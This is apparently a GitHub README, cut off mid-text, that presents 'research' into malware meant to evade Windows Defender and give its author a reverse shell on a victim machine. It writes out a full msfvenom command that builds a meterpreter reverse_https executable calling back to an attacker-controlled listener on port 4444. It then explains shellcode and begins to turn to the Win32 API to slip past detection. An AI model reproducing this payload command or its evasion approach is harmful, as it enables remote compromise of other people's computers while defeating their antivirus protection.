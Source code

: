 # Windows Security Evasion, for research porpose

Malicious software that is running a reverse shell, to get full access remote to the victim machine and this software can easily bypass windows security / windows defender and others AV's, up to now (01/04/2022).


# Anti-Virus Evasion Research

I wanted to bypass the Windows Security Virus &amp; Threat Protection with some meterpreter malware that gives me access of the victim shell, so with I could get a reverse shell.

So I tried the vanilla version of the meterpreter that you can easily forge from msfvenom:

msfvenom -p windows/x64/meterpreter/reverse\_https LHOST=eth0 LPORT=4444 -f exe -o test\_exploit.exe

With that I uploaded this piece of software that is executable for windows and it contains our malware vanilla (PE32+ executable (GUI) x86-64, for MS Windows). 

![](https://raw.githubusercontent.com/xbeatzsec/windows-security-evasion/main/not_clean_vanilla.png?token=GHSAT0AAAAAABNTE4CG7IVF52I37AZRCV34YTUCUHQ)

As you can see it has been detected as a malware in 19 differents anti-virus, but this is not too good, because even a vanilla version of a malware can bypass or can be undetected in some anti-virus softwares in the market.

But our target (Windows Defewnder) detected it as a &quot;Trojan:Win64/Meterpreter.D&quot;, so we can play around with our payload and try to bypass, this is my mission during this research.

So in msfvenom we could create a exe file to run in windows system, but also we can create a payload from that software to create a shellcode containing the malware that we want to run in the victim victim with windows defender running.

Shellcodes are pieces of machine code designed to run local or remote system shell (hence the name). They are mainly used during exploitation of software vulnerabilities - when an attacker is able to control program&#39;s execution flow he needs some universal payload to execute desired action (usually shell access). This applies to both local exploitation (e.g. for privilege escalation) and remote exploitation (for gaining RCE on a server).

But first let&#39;s use Win32 API that is built into Windows, and that is an application programmig interface written in C by Microsoft to allow access to Windows features.
